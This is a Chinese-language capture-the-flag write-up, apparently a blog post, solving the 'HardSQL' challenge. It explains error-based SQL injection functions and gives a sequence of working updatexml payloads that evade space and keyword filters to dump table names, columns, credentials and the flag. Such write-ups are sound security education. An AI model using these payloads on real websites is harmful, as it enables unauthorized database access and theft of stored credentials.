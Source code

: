 ﻿@[toc]
# [极客大挑战 2019]HardSQL

看这个标题着实心里一紧，完了，写不出来了？
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602102827490.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
又是同一系列，这次看看有什么新挑战

输入万能密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602112816440.png)
出现这个，应该是敏感字符过滤，然后试了几次，发现`+,=,and,<,>,空格,tab,换行`都被过滤

* 测试闭合

`单引号`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602113743393.png)
是，有个闭合错误，但是这样不能用联合注入和堆叠注入，没有空格可以用，只能考虑报错注入

>好家伙报错注入忘记很多，再看一遍

报错注入常见函数:
`updatexml()`,`extractvalue`,`floor()`

* `floor(rand(0)*2)`产生的数为`0，1，1，0，1，1`，然后结合`group by`函数的特性:进行集合的时候会先将每一行的数据存于一个虚表中，每次存都有查询插入更新这三种可选操作，最终造成键值重复然后报错的问题

* `updatexml(xml_document,X_path_string,new_value)`是这个函数的正确用法，当输入与其参数格式不一样的数据的时候就会发生报错，常用的格式为`updatexml(1,conocat('~',(select database()),'~'),1)`

* `extractvalue(xml_document,X_PATH_String)`是这个函数的正确用法，当输入与其参数格式不一样的数据的时候就会发生报错

`payload`:`username=asd&password=asd'^updatexml(1,concat('~',(select(database())),'~'),1)#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602183830410.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1ODM3ODk2,size_16,color_FFFFFF,t_70)
`?username=asd&password=asd'^updatexml(1,concat('~',(select(group_concat(table_name))from(information_schema.columns)where(table_schema)like(database())),'~'),1)#`

![在这里插入图片描述](https://img-blog.csdnimg.cn/2021060218444568.png)
`?username=asd&password=asd'^updatexml(1,concat('~',(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),'~'),1)#`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602190607162.png)

`asd'^updatexml(1,concat('~',(select(group_concat(username,'~',password))from(H4rDsq1)),'~'),1)#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602193742267.png)

发现flag已经出来了但是不完整
`asd'^updatexml(1,concat('~',(select(group_concat(left(password,30)))from(H4rDsq1)),'~'),1)#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602194315760.png)

`asd'^updatexml(1,concat('~',(select(group_concat(right(password,30)))from(H4rDsq1)),'~'),1)#`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602194332782.png)
拼接出flag
`flag{60101a3c-f348-44c7-9029-c56ec7fe5bd5}`
